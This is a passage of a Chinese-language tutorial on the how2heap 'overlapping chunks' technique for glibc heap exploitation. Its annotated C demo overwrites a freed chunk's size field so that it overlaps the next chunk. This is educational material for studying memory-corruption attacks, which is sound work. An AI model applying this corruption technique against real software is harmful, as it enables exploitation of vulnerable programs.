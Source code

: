 ![](/img/how2heap/overlap1_3.png)

假设现在有一个办法构造一个堆溢出，能够修改chunk p2的size字段。

```c++
//chunk p2当前位于unsorted bin中，待用于下一个malloc进行分配or切割。
printf("The chunk p2 is now in the unsorted bin ready to serve possible new malloc() of its sizen");
//现在假设我们可以覆写chunk p2的size字段。【注意不需要更改chunk p3的prev_size字段，glibc2.25不会在malloc检查中两个字段是否相同】
  printf("Now let's simulate an overflow that can overwrite the size of the chunk freed p2.n");
//标志位也要注意不能错【虽然好像不会检查】,要保证chunk p2标识chunk p1的prev_inuse位为1
  printf("For a toy program, the value of the last 3 bits is unimportant;"
        " however, it is best to maintain the stability of the heap.n");
  printf("To achieve this stability we will mark the least signifigant bit as 1 (prev_inuse), to assure that p1 is not mistaken for a free chunk.n");
//chunk p2本身只有0x100的大小，但是现在让它覆盖chunk p3【大小为0x80】，因此将free p2的size改为0x180=0x100+0x80
  int evil_chunk_size = 0x181; //计算真实大小+对齐后的size字段的情况
  int evil_region_size = 0x180 - 8;//加上chunk头和空间复用之前的实际用户size
  printf("We are going to set the size of chunk p2 to to %d, which gives usna region size of %dn",
         evil_chunk_size, evil_region_size);
  *(p2-1) = evil_chunk_size; // 覆写chunk p2的size字段，we are overwriting the "size" field of chunk p2
```
